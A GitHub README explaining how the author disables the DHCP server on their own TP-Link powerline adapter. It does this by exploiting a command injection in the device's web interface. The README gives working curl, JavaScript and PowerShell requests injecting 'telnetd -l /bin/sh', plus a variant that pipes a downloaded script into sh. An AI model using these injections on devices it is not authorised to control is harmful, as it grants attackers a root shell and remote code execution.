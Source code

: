# Disable DHCP
This disables the DHCP server, which breaks internet on networks with a primary DHCP server. See [this forum post on the TP-Link forums](https://community.tp-link.com/us/home/forum/topic/106148) for user complaints. TP-Link never updated the firmware on this model to add on option to disable the server.

# Usage
## 1
Log into powerline web interface/management page
## 2
Note the url/ip address to the powerline and authorization cookie
## 3
Send an authenticated HTTP POST request to `http://${powerline_url}/powerline?form=plc_device` with the following data. Alternatively, sent the request from your browser. Use either CURL, setting the shell script variables `powerline_url` and `authorization_cookie` to appropriate values:
```bash
curl 'http://${powerline_url}/admin/powerline?form=plc_device' -X POST -H 'Accept: application/json, text/javascript, */*; q=0.01' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: ${powerline_url}/' -H 'Origin: ${powerline_url}' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: Authorization=${authorization_cookie}' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw 'operation=remove&key=1;telnetd -l /bin/sh'
```
or this JavaScript fetch code (run on powerline page):
```javascript
await fetch(`http://${powerlineUrl}/admin/powerline?form=plc_device`, {
    "credentials": "include",
    "headers": {
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Pragma": "no-cache",
        "Cache-Control": "no-cache"
    },
    "referrer": `http://${powerlineUrl}/`,
    "body": "operation=remove&key=1;telnetd -l /bin/sh",
    "method": "POST",
    "mode": "cors"
});
```
or PowerShell code (not really tested):
```powershell
$session = New-Object Microsoft.PowerShell.Commands.WebRequestSession
$session.Cookies.Add((New-Object System.Net.Cookie("Authorization", $authorizationCookie, "/", $powerlineUrl)))
Invoke-WebRequest -UseBasicParsing -Uri "http://$powerlineUrl/admin/powerline?form=plc_device" `
-Method POST `
-WebSession $session `
-Headers @{
"Accept" = "application/json, text/javascript, */*; q=0.01"
  "Accept-Language" = "en-US,en;q=0.5"
  "Accept-Encoding" = "gzip, deflate"
  "Referer" = "http://$powerlineUrl/"
  "Origin" = "http://$powerlineUrl"
  "DNT" = "1"
  "X-Requested-With" = "XMLHttpRequest"
  "Pragma" = "no-cache"
  "Cache-Control" = "no-cache"
} `
-ContentType "application/x-www-form-urlencoded; charset=UTF-8" `
-Body "operation=remove&key=1;telnetd -l /bin/sh"
```
### Easier step
If the powerline has internet access, it is easier to change the body to 
```
"operation=remove&key=1;wget -q -O - http://github.com/iansw246/tl-wpa9610-mods/raw/main/disable-dhcp/payload.sh | sh"
```

This disables the DHCP server by running the script downloaded from the internet and doesn't require any other commands. Read some [final notes](#done)

This exploits a command injection vulnerability in the http server code on the powerline to start a telnet server. Thanks to [this blog post](https://the-hyperbolic.com/posts/hacking-the-tlwpa4220-part-1/) from the hyperbolic for a great writeup about the vulnerability.

## 4
Run `payload.sh` on the powerline via telnet by running on your local machine `upload-payload.sh`

Read the output and make there aren't any errors.

If you don't see any output, try increasing the sleep time higher than 15.
If the payload was interrupted or already run before, you may need to undo its partially changes before rerunning the script. I should document how to do that.

(see https://unix.stackexchange.com/a/296161) for source of this command.

## 5
To verify if command worked, telnet into the powerline and print the contents of `/usr/sbin/udhcpd`:
```bash
cat /usr/sbin/udhcpd
```
Verify that it is just a shell script that just creates the `/tmp/udhcpd.pid` file or something similar.

## 6
Kill the telnet server since that is a big vulernability
```bash
killall telnetd
```

## Done
And that's it. The DHCP server on the powerline should never start up. This process will need to be repeated each time the powerline is rebooted or loses power since this modifies only RAM and not the persistent firmware. A modified firmware could be created that disables the DHCP server permanently, but I'm scared of bricking my device, so I chose this route instead.

This device doesn't appear to have any recovery mechanisms via TFTP like some routers.

# Technical Details
The daemon LanSettingsd starts `/usr/sbin/udhcpd`, which is from `busybox`, under certain conditions.
From reverse engineering via Ghidra, one condition triggering it is when LAN settings (IP address, subnet mask, etc.) are written to (changed) from the web, but I'm not very confident about that.

This solution overwrites the `udhcpd` executable with a shell script that returns immediately instead. The shell script also creates a `/tmp/udhcpd.pid` file because LanSettingsd appears to use that file to decide whether to try starting `udhcpd` again. There shouldn't be any impact of it starting the modified `udhcpd` mulitple times, but it seems inefficient. See the function `FUN_00011070` in `LanSettingd`.

The root filesystem is a squashfs which is read-only. To allow modifications, therefore, we bind mount a tmpfs (`/tmp/hacked_sbin`) over `/usr/sbin` and put a modfied copy of the original `/usr/sbin` into the tmpfs.

I could also paste the entire command into the command injection rather than use telnet. Figuring out escaping seems a bit annoying. Also, I'm not sure if there's a character limit. In `httpd`, the `execFormatCmd` function appears to have a 2048 byte buffer, which might be a limit (though large enough for our purposes).